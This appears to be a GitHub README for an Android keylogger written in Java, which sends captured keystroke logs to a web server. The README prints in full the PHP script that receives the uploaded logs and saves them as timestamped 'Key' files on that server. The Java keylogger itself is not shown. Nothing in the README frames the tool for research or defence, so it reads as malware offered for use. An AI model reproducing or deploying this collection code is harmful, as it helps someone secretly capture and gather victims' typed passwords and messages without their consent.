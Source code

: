 # Android-Keylogger
This is a simple solucion Android's Keylogger, this program is writted in Java and used more componet like a PHP for the creation the log of file in a web server. The web server have been used 000webhost.com but every web server can be used.

this is the php code:

if (isset($_FILES["uploaded_file"]["name"])) {
$new_name = "Key".date("his").".txt";
$name = $_FILES["uploaded_file"]["name"];
$tmp_name = $_FILES['uploaded_file']['tmp_name'];
$error = $_FILES['uploaded_file']['error'];

if (!empty($name)) {
    $location = './Key/';

  if ( ! is_dir($location)) {
    mkdir($location);
    }

    if  (move_uploaded_file($tmp_name, $location.$name)){
        rename( $location.$name, $location.$new_name);
        echo 'Uploaded';
    }

} else {
    echo 'please choose a file';
}
}
 
![keylog](https://user-images.githubusercontent.com/31372178/130394572-d56767e4-bc5a-4a21-bf47-ce1c232f5b07.PNG)
